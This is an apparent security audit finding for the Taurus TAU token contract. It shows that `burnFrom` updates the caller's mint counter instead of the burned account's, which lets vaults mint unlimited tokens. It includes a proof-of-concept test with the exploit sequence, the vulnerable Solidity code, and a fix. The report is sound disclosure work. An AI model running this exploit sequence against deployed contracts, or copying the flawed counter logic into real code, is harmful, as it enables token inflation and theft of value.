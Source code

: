 bytes032

high

# Vaults can mint unlimit amount of tokens

## Summary

`_decreaseCurrentMinted` is using the wrong parameter, which will practically break the whole protocol

## Vulnerability Detail

The function is used in both burn and burnFrom. If the accountMinted is more than the amount, then it updates `currentMinted[msg.sender]`. While that works for `burn`, it doesnt work for `burnFrom`, which can lead to catastrophic consequences, because burnFrom can be used to reset the mintLimit and technically mint more tokens than possible. I've proved that by slightly modifying your test suite.

https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/test-hh/00_TAU.ts#L81-L102

```typescript
    it("Should allow vaults to mint up to mintLimit", async () => {
      await tau.connect(vaultPlaceholder).mint(vaultPlaceholder.address, 1000);
      expect((await tau.balanceOf(vaultPlaceholder.address))).to.equal(1000);
      const preAttackerBalance = await tau.balanceOf(attacker.address);
      await tau.connect(attacker).mint(attacker.address, 1);
      expect((await tau.balanceOf(attacker.address)).sub(preAttackerBalance)).to.equal(1);
      
      await tau.connect(attacker).approve(vaultPlaceholder.address, 1);
      expect(await tau.allowance(attacker.address, vaultPlaceholder.address)).to.equal(1);
      
      expect(await tau.currentMinted(vaultPlaceholder.address)).to.equal(1000);
      expect(await tau.currentMinted(attacker.address)).to.equal(1);
      
      await tau.connect(vaultPlaceholder).burnFrom(attacker.address, 1);
      
      expect(await tau.currentMinted(vaultPlaceholder.address)).to.equal(0);
      expect(await tau.currentMinted(attacker.address)).to.equal(1);

      await tau.connect(vaultPlaceholder).mint(vaultPlaceholder.address, 1000);
      expect((await tau.balanceOf(vaultPlaceholder.address))).to.equal(2000);
    });

```

Last, but not least the burnFrom function is used in several places through the code, meaning all of these are impacted by the vulnerability.

https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/contracts/Vault/BaseVault.sol#L303
https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/contracts/Vault/BaseVault.sol#L380
https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/contracts/Vault/TauDripFeed.sol#L56


## Impact
Vaults can mint unlimited amount of tokens

## Code Snippet
https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/contracts/TAU.sol#L58-L90

```solidity
    function burn(uint256 amount) public virtual override {
        address account = _msgSender();
        _burn(account, amount);
        _decreaseCurrentMinted(account, amount);
    }

    /**
     * @dev Destroys `amount` tokens from `account`, deducting from the caller's
     * allowance. Also decreases the burner's currentMinted amount if the burner is a vault.
     *
     * See {ERC20-_burn} and {ERC20-allowance}.
     *
     * Requirements:
     *
     * - the caller must have allowance for ``accounts``'s tokens of at least
     * `amount`.
     */
    function burnFrom(address account, uint256 amount) public virtual override {
        // 1. burn 1 token from another vault
        super.burnFrom(account, amount);
        _decreaseCurrentMinted(account, amount);
    }

    function _decreaseCurrentMinted(address account, uint256 amount) internal virtual {
        // If the burner is a vault, subtract burnt TAU from its currentMinted.
        // This has a few highly unimportant edge cases which can generally be rectified by increasing the relevant vault's mintLimit.
        // 2. another vault balance >= amount
        // 3. currentMinter[msg.sender] = another vault balance - amount;
        uint256 accountMinted = currentMinted[account];
        if (accountMinted >= amount) {
            currentMinted[msg.sender] = accountMinted - amount;
        }
    }
```


## Tool used
Manual review

## Recommendation

Change the code in the following way

```diff
- currentMinted[msg.sender];
+ currentMinted[account];
```